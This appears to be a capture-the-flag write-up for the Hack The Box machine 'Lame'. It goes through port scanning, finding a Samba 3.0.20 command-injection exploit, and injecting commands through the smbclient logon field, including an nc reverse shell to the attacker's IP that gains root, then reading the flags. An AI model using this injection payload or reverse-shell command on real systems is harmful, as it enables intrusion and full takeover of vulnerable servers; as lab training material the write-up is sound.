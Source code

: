 ![Lame.PNG](/assets/Machines/Easy/Lame/Lame.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.3
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.3
```

**Output**
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

3. Discover de version of services 
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

4. Search with **searchsploit** any exploit with `Samba 3.0.20`
```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
```

5. Copy this script into current directory and look how function.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Lame]
└─| searchsploit -m unix/remote/16320.rb
```
---
![code.PNG](/assets/Machines/Easy/Lame/code.PNG)

* In this part of code we look te exploit login with **"/= \`nohup [code] \`"**
* Ej. **"/= \`nohup whoami \`"**

6. Try to intercept output of any command, use **nc**

First, login with smbclient 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Lame]
└─| smbclient \\\\10.10.10.3\\tmp    
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
---
Then, listen with **nc** in port **443**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Lame]
└─| nc -lvnp 443
```
---
Next, use `logon` to try to login with valid username, in this point we can inject the code look in exploit
```bash
smb: \> logon "/=`nohup whoami | nc <tun0 IP> <Port>`"
Password:
```
* In field password put any string
---
Finally, look in nc the output of command
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Lame]
└─| nc -lvnp 443                             
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.3] 60493
root
```

7. Execute a commando to get a reverse shell, use nc

* **Command:** `nc -e /bin/bash <tun0 IP> <port>`

```bash
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.18 443`"
Password:
```

**Output**
```bash
root@lame:/# whoami
root
```

8. Cat user and root flags.
```bash
root@lame:/# cat /root/root.txt 
14368624c2e93b9bb6cb9010615e8031
```
---
```bash
root@lame:/# find / -name user.txt | xargs cat
df61f813be4e97158555be5ae1d537e1
```

* Use command `find` with parameter `-name` to find the path of **user.txt** flag, after the output of this command execute a cat.